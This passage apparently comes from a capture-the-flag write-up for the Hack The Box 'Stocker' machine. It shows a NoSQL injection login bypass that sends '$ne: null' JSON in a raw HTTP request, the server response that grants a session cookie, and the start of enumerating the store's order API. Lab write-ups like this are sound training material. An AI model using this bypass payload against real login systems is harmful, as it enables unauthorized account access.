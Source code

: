 ```html
 &nbsp; &nbsp;at process.processTicksAndRejections (node:internal/process/task_queues:82:21)
</pre>
```

We're now attempting to do the not equal trick in json format.  
The string one doesn't work and redirects to the login page again, but the null one:    
```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 55
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3ABQLPJCRVtbFfVXj-9O0BH2XcR4MhONsU.%2B7h0w9%2BrKhzpCdLJyODPSNcOoSKzxeMYPKNvmSZNOu0
Upgrade-Insecure-Requests: 1

{"username": {"$ne": null}, "password": {"$ne": null} }
```

responds back whit a 302 as well but to the /stock page  
with a Set-Cookie header to a new express session id
```
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 28 Jan 2023 14:24:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
X-Powered-By: Express
Location: /stock
Vary: Accept
Set-Cookie: connect.sid=s%3AeuJjM4ivC0KICQA8NBmP0ofJkyzc4tof.StbQgcHx26HhA51CyGSgaHVlebcRQQ4Cz%2FKzVX%2FkPdc; Path=/; HttpOnly

<p>Found. Redirecting to <a href="/stock">/stock</a></p>
```

Installing that cookie into our browser, we can now navigate to /stock


## Enum again 

This is a simple webstore  with 3 products that each have a add to cart button, and there's a view cart, none of those buttons are doing http calls, so this is happening client side, but the products are added to cart, then the submit button does a POST
```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 163
Connection: close
Cookie: connect.sid=s%3AbbZi88s3VyXnFcdZLyVHmar9ts36h2pt.OxJN91F%2B10qTaxqXNkAy%2Bg%2FiRnW%2FI4FSW6qjEzzmdrE

```